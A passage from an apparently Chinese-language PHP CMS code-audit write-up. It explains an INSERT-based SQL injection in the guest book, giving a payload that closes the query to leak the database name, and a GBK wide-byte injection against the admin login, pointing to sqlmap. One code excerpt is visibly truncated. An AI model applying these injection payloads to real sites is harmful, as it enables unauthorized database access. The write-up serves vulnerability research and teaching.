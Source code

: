 而 query 函数也并无过滤，所以一个 insert 型注入就出来了

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UVy6z7PFvuE9TThVhPbvoA6vDyLxAJStKBuwta9PhfbxZUDUhbN8WxGpzn055XvByc4kNb0icjYLw/640?wx_fmt=png)

而这里的 SQL 语句为：

```
INSERT INTO " . table('guest_book') . " (id, rid, user_id, add_time, ip, content) 
      VALUES ('', '$rid', '$user_id', '$timestamp', '$online_ip', '$content')
```

我们需要一定的闭合操作，变为下面这样：

```
INSERT INTO " . table('guest_book') . " (id, rid, user_id, add_time, ip, content) 
      VALUES ('', '$rid', '$user_id', '$timestamp', '127.0.0.1',database())-- +', '$content')
```

漏洞演示：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UVy6z7PFvuE9TThVhPbvoAg2d84zbics9WrI9ZJBLicXibOibAoJCHz6FVcrVK0gZ3l5HnywqRibomfeA/640?wx_fmt=png)

访问留言处，数据库名已经出来了：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UVy6z7PFvuE9TThVhPbvoAUExpEib3UGStCP6lz8Nuz9jdVYXP3f6P3ia0ibTxdrD0Xbax8ysaibVW1g/640?wx_fmt=png)

第三处、admin/login.php（宽字节万能密码）

这个其实主要是页面编码问题导致的，gbk2312，我们来看一下代码是怎么写的：

首先把接收的参数放入 check_admin 进行检测

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UVy6z7PFvuE9TThVhPbvoAp1vuBAarOAhibadoBAAXoc90mGl52dy6dv58HsyadhiaSynravrzJQvQ/640?wx_fmt=png)

check_admin：

```
function check_admin($name, $pwd)
{
   global $db;
   $row = $db->getone("SELECT COUNT(*) AS num FROM ".table('admin')." WHERE admin_);
   if($row['num'] > 0)
   {
      return true;
   }
   else
   {
      return false;
   }
}
```

name 被单引号包裹，所以会被 addslashes() 函数过滤，但因为页面编码问题，我们可以使用宽字节注入。SQLMAP 一把梭：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UVy6z7PFvuE9TThVhPbvoADBvIdvl7DRmQUxd8ic5TNH8TCo5GaiaB1SpUatOxb8AiaMiaVlgpdAavjA/640?wx_fmt=png)

url 跳转
